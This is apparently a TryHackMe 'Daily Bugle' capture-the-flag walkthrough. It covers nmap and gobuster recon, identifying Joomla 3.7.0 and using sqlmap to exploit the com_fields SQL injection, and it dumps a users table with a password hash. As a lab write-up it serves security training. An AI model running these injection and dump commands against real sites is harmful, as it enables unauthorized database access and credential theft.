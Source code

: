 # Daily Bugle Walkthrough
### Link
- https://tryhackme.com/room/dailybugle
---
### Task 1 - Deploy
**Question**
###### Who robbed the bank?
**Answer**
###### spiderman
---
### Task 2 - Obtain user and root
1. Reco
- NMAP
```shell
nmap -sC -sV [IP] 
Result:
--> Port 22/80/3306 opened
--> Port 3306: MariaDB
```
- Gobuster
```
gobuster dir -u http://[IP]:80 -w [path to wordlist]
Directories found:
/images
/templates
/media
/modules
/bin
/plugins
/includes
/language
/components
/cache
/libraries
/tmp
/layouts
/administrator
```
- Joomscan

We know **Joomla** is installed.
We have an interesting tool : joomscan (https://www.kali.org/tools/joomscan/)

```
joomscan -u [IP]
```
**Question**
###### What is the Joomla version?
**Answer**
###### Joomla 3.7.0

2. Find an exploit

With the Joomla version, we can try to find an exploit
```
searchsploit joomla 3.7.0
Result:
Joomla! 3.7.0 - 'com_fields' SQL Injection         | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Sit | php/webapps/43488.txt
```

So let's now focus on the first one : SQL Injection
Explore the txt file to understand the exploit
```
searchsploit -x php/webapps/42033.txt
```

We have a beautiful sqlmap commandline to help us ^_^

3. SQLMAP 
```
SQLMAP:
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
*Info* : I don't use the option *--level=5* to perform the command to obtain the result more faster.

Now, let's check all tables 
```
sqlmap -u "http://10.10.59.102/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables
```

We found too many tables: 72
Let's focus on __schemas , __session , __users , __user_keys
After few research, only **__users** give us interesting informaiton.
```
sqlmap -u "http://10.10.27.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump

Result:
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| id  | name       | email               | params  | password                                                     | username |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
| 811 | Super User | jonah@tryhackme.com | <blank> | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | jonah    |
+-----+------------+---------------------+---------+--------------------------------------------------------------+----------+
```





